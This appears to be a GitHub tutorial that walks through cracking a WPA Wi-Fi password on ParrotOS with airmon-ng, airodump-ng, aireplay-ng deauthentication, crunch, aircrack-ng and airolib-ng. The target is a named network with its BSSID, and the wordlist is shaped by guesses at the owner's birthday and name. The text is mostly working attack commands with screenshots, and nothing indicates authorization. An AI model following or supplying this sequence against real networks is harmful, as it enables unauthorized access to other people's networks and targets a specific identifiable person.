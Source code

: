 ## Example crack wpa attack speed with airolib-ng, aircrack-ng

i use tp-link wn725n and on parrotOS, the name of it is ridiculous

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/166419875-330952f9-ce4a-416d-b403-ec2d39ecc3dc.png)

```
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166419967-2d8d1bd2-eb49-40b7-b46f-cf52497eba4b.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420371-20c0ce94-e653-4cda-b87b-72f071d94a49.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19`

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420867-1c3d3d5a-5c26-4f67-b271-84f9a19c81d0.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166432950-8e1e639f-a889-47e9-83eb-be9c8282a237.png)

the output file about 7,6 GB and 8 hundred thousand passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/166422150-4ae8f0bd-47a0-4d57-9ddf-5f7905228535.png)

---

but i will use database to speed up the attack

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats
airolib-ng crackwpa --clean all
airolib-ng crackwpa --batch
```




















